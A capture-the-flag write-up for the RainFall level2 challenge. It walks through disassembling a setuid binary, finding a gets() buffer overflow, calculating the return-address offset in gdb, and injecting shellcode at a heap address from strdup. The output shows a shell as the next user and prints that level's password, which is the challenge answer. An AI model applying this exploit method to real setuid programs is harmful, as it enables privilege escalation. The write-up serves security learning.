 We have a binary with the setuid flag
```
level2@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level3 users 5403 Mar  6  2016 level2
```
We disassemble:
```asm
level2@RainFall:~$ objdump -d intel  ./level2 -M intel
080484d4 <p>:
 80484d4:	55                   	push   ebp
 80484d5:	89 e5                	mov    ebp,esp
 80484d7:	83 ec 68             	sub    esp,0x68
 80484da:	a1 60 98 04 08       	mov    eax,ds:0x8049860
 80484df:	89 04 24             	mov    DWORD PTR [esp],eax
 80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
 80484e7:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80484ea:	89 04 24             	mov    DWORD PTR [esp],eax
 80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
 80484f2:	8b 45 04             	mov    eax,DWORD PTR [ebp+0x4]
 80484f5:	89 45 f4             	mov    DWORD PTR [ebp-0xc],eax
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
 8048507:	b8 20 86 04 08       	mov    eax,0x8048620
 804850c:	8b 55 f4             	mov    edx,DWORD PTR [ebp-0xc]
 804850f:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 8048513:	89 04 24             	mov    DWORD PTR [esp],eax
 8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
 804851b:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
 8048527:	8d 45 b4             	lea    eax,[ebp-0x4c]
 804852a:	89 04 24             	mov    DWORD PTR [esp],eax
 804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
 8048532:	8d 45 b4             	lea    eax,[ebp-0x4c]
 8048535:	89 04 24             	mov    DWORD PTR [esp],eax
 8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
 804853d:	c9                   	leave  
 804853e:	c3                   	ret    

0804853f <main>:
 804853f:	55                   	push   ebp
 8048540:	89 e5                	mov    ebp,esp
 8048542:	83 e4 f0             	and    esp,0xfffffff0
 8048545:	e8 8a ff ff ff       	call   80484d4 <p>
 804854a:	c9                   	leave  
 804854b:	c3                   	ret    
 804854c:	90                   	nop
 804854d:	90                   	nop
 804854e:	90                   	nop
 804854f:	90                   	nop
```
We notice call to gets, puts and strdup. p function is of interest. It is called by main and uses gets function that we know is vulnerable to buffer overflow attack.
However, it seems there is a check here:
```asm
 80484f8:	8b 45 f4             	mov    eax,DWORD PTR [ebp-0xc]
 80484fb:	25 00 00 00 b0       	and    eax,0xb0000000
 8048500:	3d 00 00 00 b0       	cmp    eax,0xb0000000
 8048505:	75 20                	jne    8048527 <p+0x53>
```
It seems to check if eax contains an address that belongs to the range 0xb0000000 - 0xbfffffff which is the range of Kernel or Stack addresses.
Since there are no hidden function with call to system like level1, we will have to inject our own.
First we will try to hijack the eax return register to exploit gets vulnerability. The return address will be the buffer of gets and the buffer will contain shellcode.
We use the same tactic as level1 to determine the offset:
```
level2@RainFall:~$ python /tmp/pattern3.py
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
(gdb) b *0x0804854b
Breakpoint 3 at 0x804854b
(gdb) c
Continuing.
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) quit
A debugging session is active.

        Inferior 1 [process 12242] will be killed.

Quit anyway? (y or n) y
level2@RainFall:~$ python /tmp/pattern3.py > /tmp/2.txt
level2@RainFall:~$ python /tmp/pattern3.py /tmp/2.txt 0x37634136
offset found at: 80
```
We find an offset at 80 bytes. Lets try to inject shell code to the return address:
```
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048542
(gdb) b p
Breakpoint 2 at 0x80484da
(gdb) r
Starting program: /home/user/level2/level2

Breakpoint 1, 0x08048542 in main ()
(gdb) s
Single stepping until exit from function main,
which has no line number information.

Breakpoint 2, 0x080484da in p ()
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
=> 0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```
we want the return buffer so we place a bp right after the call to gets: 0x080484f2
```
(gdb) b *0x080484f2
Breakpoint 3 at 0x80484f2
(gdb) s
Single stepping until exit from function p,
which has no line number information.
aaaaaaa

Breakpoint 3, 0x080484f2 in p ()
(gdb) i r
eax            0xbffff6dc       -1073744164
ecx            0xb7fd28c4       -1208145724
edx            0xbffff6dc       -1073744164
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6c0       0xbffff6c0
ebp            0xbffff728       0xbffff728
esi            0x0      0
edi            0x0      0
eip            0x80484f2        0x80484f2 <p+30>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```
in eax the buffer is at address 0xbffff6dc, lets try to inject here.
Our shell code is 21 bytes long, the limit is 80 bytes so we first have our 21 bytes shellcode then 59 random bytes then 4 bytes for the address
```
level2@RainFall:~$ python /tmp/exploit3.py  0xbffff6dc 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

(0xbffff6dc)

```
it failed because we cant write on stack, but on heap it seems to be ok. strdup returns the following address:
```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                       = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5
TEST!
)                                        = 0xbffff6fc
puts("TEST!"
TEST!
)                                        = 6
strdup("TEST!")                          = 0x0804a008
+++ exited (status 8) +++
```
We try again with this malloc'ed address:
```
level2@RainFall:~$ python /tmp/exploit3.py  0x0804a008 59
crafting payload...
done:
/tmp/payload_level2
level2@RainFall:~$ cat /tmp/payload_level2 - | ./level2

j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```